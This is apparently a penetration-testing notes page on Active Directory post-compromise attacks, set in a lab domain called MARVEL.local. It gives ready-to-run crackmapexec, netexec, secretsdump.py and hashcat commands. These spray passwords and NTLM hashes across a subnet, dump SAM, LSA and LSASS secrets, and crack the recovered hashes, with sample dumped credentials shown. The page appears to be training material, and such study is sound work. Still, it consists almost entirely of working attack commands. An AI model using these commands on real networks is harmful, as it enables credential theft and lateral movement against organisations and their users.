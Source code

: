 # AD - Post-Compromise Attacks

## Pass the Hash

### crackmapexec

> 📌 Some commands could not be working since CrackMapExec is no longer mantained -> Jump to [NetExec](#netexec) for working commands

➡️ [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) - post-exploitation tool that helps automate assessing the security of large Active Directory networks

- [CrackMapExec Cheat Sheet 2024 (Commands & Examples) - Stationx](https://www.stationx.net/crackmapexec-cheat-sheet/)

**Pass the Password**

```bash
crackmapexec smb 192.168.31.0/24 -u fcastle -d MARVEL.local -p Password1
```

![Pass the Password](.gitbook/assets/2024-08-16_09-18-13_685.png)

**Pass the Hash**

- Use the `administrator` user's hash from the SAM dump

```bash
# NTLMv1 necessary
crackmapexec smb 192.168.31.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth
```

![Pass the Hash](.gitbook/assets/2024-08-16_09-21-21_686.png)

```bash
# Dump the SAM
crackmapexec smb 192.168.31.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --sam

# Enumerate shares (not connected to)
crackmapexec smb 192.168.31.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --shares

# Dump LSA secrets
crackmapexec smb 192.168.31.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth --lsa
```

![](.gitbook/assets/2024-08-16_09-26-19_687.png)

```bash
# Use modules
crackmapexec smb -L

crackmapexec smb 192.168.31.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth -M lsassy
```

```bash
# Check CME DB
cmedb

hosts
creds
export creds detailed cme_creds
```

### netexec

➡️ [netexec](https://github.com/Pennyw0rth/NetExec)

```bash
sudo apt install pipx git
pipx ensurepath
pipx install git+https://github.com/Pennyw0rth/NetExec
```

```bash
netexec smb 192.168.31.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f --local-auth -M lsassy

# LSASSY 192.168.31.93 445 THEPUNISHER MARVEL\Administrator 920ae267e048417fcfe00f49ecbd4b33
```

![](.gitbook/assets/2024-08-16_09-44-46_688.png)

### secretsdump.py

➡️ [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) from `impacket`

**e.g.** of lateral movement Hash Attack

- LLMNR -> `fcastle` hash -> cracked -> sprayed the password -> new login found -> secretsdump logins -> local admin hashes -> respray the network with local accounts

```bash
# Password attack
secretsdump.py MARVEL.local/fcastle:'Password1'@spiderman.MARVEL.local
secretsdump.py MARVEL.local/fcastle:'Password1'@thepunisher.MARVEL.local

# Hash attack
secretsdump.py administrator:@spiderman.MARVEL.local -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```

```bash
# Check for hashes and clear text passwords (e.g. wdigest)

Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
frankcastle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::

[*] Dumping cached domain logon information (domain/username:hash)
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c: (2024-07-15 21:58:30)
MARVEL.LOCAL/fcastle:$DCC2$10240#fcastle#e6f48c2526bd594441d3da3723155f6f: (2024-07-28 18:56:22)
MARVEL.LOCAL/pparker:$DCC2$10240#pparker#9f28ff35b303d014c9e85e35ab47d019: (2024-07-28 19:01:19)
```

- **e.g.** Cracking NTLMv1

```bash
echo '7facdc498ed1680c4fd1448319a8c04f' > ntlm.txt

hashcat -m 1000 ntlm.txt /usr/share/wordlists/rockyou.txt

	7facdc498ed1680c4fd1448319a8c04f:Password1!
```

---


